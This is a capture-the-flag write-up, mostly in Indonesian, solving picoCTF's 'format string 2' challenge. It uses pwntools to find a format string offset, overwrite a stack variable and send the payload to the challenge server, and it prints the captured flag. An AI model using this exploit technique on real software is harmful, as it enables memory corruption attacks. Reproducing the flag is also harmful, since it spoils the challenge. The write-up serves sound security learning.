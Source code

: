 ﻿## CTF Name: format string 2 (Medium)

### Description:
This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must _change_ data on the stack!

### Hint:
pwntools are very useful for this problem!

### Solution:
Untuk menyelesaikan tantangan ini langkah awal yang saya lakukan adalah menganalisa source code nya terlebih dahulu pada vuln.c saya menemukan bahwa cara untuk mendapatkan flagnya harus membuat sus menjadi 0x67616c66 

![vuln.c](./documentation/image.png)

berdasarkan hasil analisa saya ini saya mendapatkan strategi untuk mengubah sus yang sebelumnya itu 0x21737573 menjadi  0x67616c66 cara yang saya lakukan adalah membuat script payload untuk mengubah nilai sus menggunakan library python yaitu pwn berdasarkan hint yang diberikan dengan langkah sebagai berikut:

 1. **Menemukan Offset Parameter Format String**
 
	Langkah pertama adalah menentukan offset parameter pada stack yang dapat kita kontrol menggunakan payload format string. Offset inilah yang menunjukkan posisi di stack di mana kita dapat menulis data. Menggunakan pwntools, kita dapat secara otomatis mencari offset dengan memanfaatkan kelas FmtStr dan sebuah fungsi yang menjalankan binary secara lokal:
	```
	def send_payload(payload):
    p = elf.process()
    p.sendline(payload)
    l = p.recvall()
    p.close()
    return l

	offset = FmtStr(send_payload).offset
	info(f"{offset=}")
	```
	Di sini, fungsi send_payload menjalankan binary lokal, mengirim payload, dan mengembalikan outputnya. FmtStr kemudian mencari nilai offset yang benar untuk eksploitasi write.
	
2. **Mendapatkan Alamat Target**

	Setelah offset ditemukan, kita perlu mengetahui alamat dari variabel target yaitu simbol **sus** yang akan diubah nilainya. Dengan membuka binary menggunakan pwntools:
	 ```
	 elf = context.binary = ELF('./vuln')
	info(f"{elf.symbols['sus']=}")
	 ```
	 informasi ini memberikan alamat memori dari **sus** yang nantinya akan digunakan untuk menulis **"flag"**.

4. **Membangun dan mengirim payload eksploitasi**
	
 	Dengan mengetahui offset dan alamat target, kita dapat membuat payload menggunakan fungsi fmtstr_payload dari pwntools. Payload ini dirancang untuk menulis nilai  0x67616c66 ke alamat sus.
	```
	p = remote('rhea.picoctf.net', 54471)
	p.sendline(fmtstr_payload(offset, {elf.symbols['sus']: 0x67616c66}))
	info(p.recvall().decode())
	p.close()
	```
	payload yang dibuat oleh pwntools itu bakal dikirimkan menggunakan fungsi remote untuk membuka koneksi ke server  dan jika eksploitasi berhasil, output yang berisi flag akan diterima

5. Menjalankan script payload yang sudah dibuat dengan python3
	```
	python3 script.py
	```
	setelah script python itu dijalankan payload akan dijalankan dari hasil output nya ini:

	![output script.py](./documentation/2.png)
		
	dapat dilihat bahwa payload berhasil dijalankan dan mendapatkan offset nya yaitu 14 dan berhasil mengubah alamat sus menjadi alamt flag dan akhirnya flagnya didapatkan yaitu:
	**picoCTF{f0rm47_57r?_f0rm47_m3m_ccb55fce}**
